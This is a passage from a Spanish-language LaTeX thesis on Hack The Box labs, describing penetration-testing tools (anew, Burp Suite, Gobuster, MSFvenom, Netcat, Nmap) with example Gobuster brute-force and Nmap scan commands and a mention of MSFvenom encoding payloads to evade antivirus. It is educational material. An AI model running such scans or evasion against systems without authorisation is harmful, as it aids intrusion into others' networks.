    
\includegraphics[width=0.6\textwidth]{images/sections/stateOfTheArt/htb-tracks.png}
    \caption{\textit{Beginner Track} en \textit{\acrshort{HTB}}}
    \label{fig:htb-tracks}
\end{figure}

\subsubsection{Endgames}
La sección \textit{endgames} de \acrshort{HTB} son una serie de laboratorios avanzados simulando escenarios e infraestructuras del mundo real. El objetivo, al igual que con las \textit{machines} es obtener el flag de \textit{root}, pero en estos laboratorios hay más máquinas, redes más complejas y un desafío mucho mayor.\\

Para desbloquear el \textit{endgame}, se tiene que haber alcanzado un rango mínimo en \acrshort{HTB} de ``\textit{Guru}``. El rango se consigue realizando máquinas, desafíos y demás.


    \newpage
    \section{Herramientas}
    En esta sección se hablará de las distintas herramientas utilizadas para la resolución de las distintas máquinas.

    \subsection{Anew}
    \textit{anew}\cite{anew} es una herramienta escrita en \textit{Golang} que añade las líneas que salen por la salida estándar de un comando a un archivo concreto, pero solo si esas líneas no estaban ya contenidas en el archivo. También imprime en la salida estándar las nuevas líneas que se han añadido, funcionando de manera similar a como \texttt{tee -a} eliminando los duplicados.\\

Un ejemplo de su uso se muestra en la figura \ref{fig:anew-example}. En el ejemplo se tiene una lista inicial con el contenido ``\textit{uno}``, ``\textit{dos}`` y ``\textit{tres}``, y una segunda lista con más números: ``\textit{dos}``, ``\textit{tres}``, ``\textit{cuatro}`` y ``\textit{cinco}``. Ejecutando el comando \textit{anew} entre las dos listas, obtenemos como resultado los valores de la segunda lista que no están en la primera (``\textit{cuatro}`` y ``\textit{cinco}``), además de actualizar la primera lista con dichos valores.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.80\textwidth]{images/sections/tools/anew-example.png}
    \caption{Ejemplo de uso de \textit{anew}}
    \label{fig:anew-example}
\end{figure}

    \subsection{Burp Suite}
    \textit{Burp Suite}\cite{burp} (figura \ref{fig:burp-logo}) es una de las herramientas preferidas para muchos profesionales de seguridad, pentesters, bug hunters, etc.  Es una plataforma integrada para realizar evaluaciones de seguridad a aplicaciones web. Esta diseñada para apoyar la metodología de una evaluación manual, y proporciona un completo control sobre las acciones a realizar, además de un análisis profundo de los resultados. \textit{Burp Suite} contiene varias herramientas que trabajan juntas para realizar virtualmente cualquier tarea que pueda ser encontrada en las evaluaciones. Puede automatizar todo tipo de tareas de manera personalizada, y permite combinar técnicas manuales y automáticas para hacer las pruebas más rápidas, más confiables y mas divertidas.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.30\textwidth]{images/sections/tools/burp.png}
    \caption{Logo de \textit{Burp Suite}}
    \label{fig:burp-logo}
\end{figure}

Los componentes claves de \textit{Burp} son:
\begin{itemize}
    \item Un \textbf{Proxy} de interceptación, el cual permite inspeccionar y modificar el tráfico entre el navegador y la aplicación objetivo.
    \item Un \textbf{Spider} de conocimiento de la aplicación, para recorrer contenidos y funcionalidades.
    \item Un escáner (\textbf{Scanner}) avanzado para la aplicación web, para automatizar la detección de varios tipos de vulnerabilidades.
    \item Una herramienta de repetición, \textbf{Repeater}, para manipular y reenviar solicitudes individuales.
    \item Una herramienta de secuencia (\textbf{Sequencer}), para evaluar la aleatoriedad de los tokens de sesión.
    \item Es ampliable, permite escribir fácilmente plugins propios, para realizar tareas altamente personalizadas y complejas dentro de \textit{Burp Suite}.
\end{itemize}

Entre las características principales se encuentran:
\begin{itemize}
    \item Permite realizar de forma automatizada pruebas de exploración y escaneo de vulnerabilidades.
    \item Contiene un escáner de vulnerabilidades avanzado para pruebas manuales.
    \item Lógica de exploración de vanguardia.
    \item Presentación clara y detallada de vulnerabilidades, con recomendaciones y los payloads utilizados.
    \item Interceptar el tráfico del navegador mediante el Proxy (man-in-the-middle).
    \item Ataques automatizados y personalizados usando \textit{Burp Intruder}.
    \item Contiene herramientas de prueba manuales avanzadas.
    \item Brinda diferentes métodos y técnicas de conexión a las aplicaciones Web.
\end{itemize}

A continuación, en la figura \ref{fig:burp-example}, se muestra la herramienta de \textit{Proxy} capturando la red, y mostrando el contenido de una \textit{request} a \textit{GitHub}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/sections/tools/captura-burp.png}
    \caption{Ejemplo de uso de \textit{Burp Suite}}
    \label{fig:burp-example}
\end{figure}

    \subsection{Gobuster}
    \textit{Gobuster}\cite{gobuster} es una herramienta escrita en \textit{Golang} utilizada para realizar fuerza bruta en \acrshort{uri}s, en \acrshort{dns}, en servidores web y en \textit{buckets} de \textit{Amazon S3}.\\

\textit{Gobuster} destaca por tener varios modos de escaneo.

\begin{itemize}
    \item Modo \texttt{\textbf{dir}}: el modo clásico de escaneo de directorios mediante fuerza bruta.
    \item Modo \texttt{\textbf{dns}}: modo de fuerza bruta mediante subdominios \acrshort{dns}.
    \item Modo \texttt{\textbf{fuzz}}: utilizado para hacer \textit{fuzzing}.
    \item Modo \texttt{\textbf{s3}}: enumera \textit{buckets S3} abiertos y mira por la existencia de listados de \textit{buckets}.
    \item Modo \texttt{\textbf{vhost}}: fuerza bruta mediante hosts virtuales.
\end{itemize}

\textit{Gobuster} tiene varias opciones para su uso, como se muestra en la figura \ref{fig:gobuster-help}, además de aún más opciones dependiendo del modo de uso elegido.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.7\textwidth]{images/sections/tools/gobuster.png}
    \caption{Ayuda de general de \textit{Gobuster}}
    \label{fig:gobuster-help}
\end{figure}

Algunos ejemplos de su uso son:

\begin{lstlisting}[language=bash]
gobuster dir -u https://mysite.com/path/to/folder -c 'session=123456' -t 50 -w common-files.txt -x .php,.html
gobuster dns -d mysite.com -t 50 -w common-names.txt
gobuster fuzz -u https://example.com?FUZZ=test -w parameter-names.txt
\end{lstlisting}

    \subsection{MSFvenom}
    MSFvenom\cite{msfvenom} herramienta que pertenece al framework de \textit{Metasploit}\cite{metasploit} (figura \ref{fig:logo-metasploit}). \textit{MSFvenom} es la combinación de otras dos herramientas, \textit{MSFpayload} y \textit{MSFencode}. \textit{MSFpayload} se encarga de generar payloads para distintas plataformas, mientras que \textit{MSFencode} se encarga de codificar dichos payloads con el objetivo de evadir la detección mediante el uso de antivirus. \textit{MSFvenom} reemplazó a estas dos herramientas el 18 de junio de 2015.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.20\textwidth]{images/sections/tools/metasploit-logo.png}
    \caption{Logo de \textit{Metasploit}}
    \label{fig:logo-metasploit}
\end{figure}

Las ventajas de \textit{MSFvenom} son:
\begin{itemize}
    \item Se simplifica la generación de payloads y los intentos de codificación de éstos.
    \item Se presenta como una herramienta estándar que ayuda a los auditores y a cualquier usuario su manejo. Es realmente intuitiva y con fácil aprendizaje.
    \item El rendimiento ha sido mejorado considerablemente.
\end{itemize}

\textit{MSFvenom} dispone de una amplia gama de opciones (figura \ref{fig:ayuda-msfvenom}):

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/sections/tools/msfvenom-help.png}
    \caption{Ayuda de \textit{MSFvenom}}
    \label{fig:ayuda-msfvenom}
\end{figure}

    \subsection{Netcat}
    \textit{Netcat}, normalmente abreviado a \textit{nc}\cite{netcat} es una utilidad de red para leer y escribir en conexiones de red utilizando \acrshort{tcp} o \acrshort{udp}. El comando está diseñado para ser un backend confiable que puede ser usado directamente o fácilmente manejado por otros programas y scripts. Al mismo tiempo, es una herramienta de investigación y depuración de redes con muchas características, ya que puede producir casi cualquier tipo de conexión que su usuario pueda necesitar y tiene una serie de capacidades incorporadas.\\

Algunas de las principales características de \textit{netcat} son
\begin{itemize}
    \item Conexiones salientes o entrantes, \acrshort{dns} o \acrshort{udp}, hacia o desde cualquier puerto.
    \item Comprobación completa de \acrshort{dns}.
    \item Posibilidad de utilizar cualquier puerto de origen local.
    \item Posibilidad de utilizar cualquier dirección de origen de red configurada localmente.
    \item Capacidad incorporada de enrutamiento de origen.
    \item Puede leer los argumentos de la línea de comandos desde la entrada estándar.
    \item Volcado hexadecimal de los datos transmitidos y recibidos.
    \item Capacidad opcional de dejar que otro programa atienda las conexiones establecidas.
\end{itemize}

Como se muestra en la figura \ref{fig:ayuda-nc}, \textit{Netcat} tiene las siguientes opciones de uso:
\begin{figure}[h]
    \centering
    
\includegraphics[width=0.8\textwidth]{images/sections/tools/nc-help.png}
    \caption{Ayuda de \textit{Netcat}}
    \label{fig:ayuda-nc}
\end{figure}

    \subsection{Nmap}
    \textit{Network Mapper} mayormente conocido como \textit{Nmap}\cite{nmap} es una herramienta gratuita y open source. Esta herramienta es usada para descubrimiento de red y auditorías de seguridad, además, muchos administradores de red utilizan esta herramienta para realizar tareas como inventario de red, gestionar los horarios de actualización de los servicios y monitorizar el \textit{uptime} de los servicios.\\

\textit{Nmap} utiliza paquetes \acrshort{ip} sin procesar de diversas maneras para determinar máquinas disponibles en la red, los servicios que dichas máquinas están exponiendo a la red, el sistema operativo, y docenas de otras características.\\

\textit{Nmap} destaca por:

\begin{itemize}
    \item Su \textbf{potencia}: puede escanear grandes redes de miles de máquinas.
    \item \textbf{Portabilidad}: es soportado por la mayoría de sistemas operativos, incluyendo \textit{Linux}, \textit{Windows} y \textit{Mac OS X}.
    \item Fácil \textbf{usabilidad}: pese a su gran cantidad de opciones, con tan solo escribir \texttt{nmap -v -A target} podríamos escanear una red.
    \item Ser gratuito.
    \item \textbf{Documentación}: tiene una gran cantidad de opciones y características, todas ellas bien documentadas tanto en su web como los manuales\footnote{\href{https://linux.die.net/man/1/nmap}{Manual de \textit{Nmap}}} de uso.
    \item Ser apoyado por una gran \textbf{comunidad}.
    \item \textbf{Popular}: miles de personas descargan y utilizan \textit{Nmap} diariamente.
\end{itemize}

\textit{Nmap} tiene muchas opciones de uso, como se puede ver en la figura \ref{fig:nmap-help} (no se muestran todas las opciones por su longitud). Estas funcionalidades se pueden catalogar en:

\begin{itemize}
    \item Especificación del objetivo/s (\textit{target/s}).
    \item Descubrimiento de hosts.
    \item Técnicas de escaneo.
    \item Especificación y orden de escaneo de puertos.
    \item Escaneo con scripts.
    \item Detección de sistema operativo.
    \item Temporización y rendimiento.
    \item Evasión de Firewall/\acrshort{ids} y \textit{Spoofing}.
    \item Gestión de la salida del comando.
    \item Miscelánea.
\end{itemize}

\begin{figure}[h]
    \centering
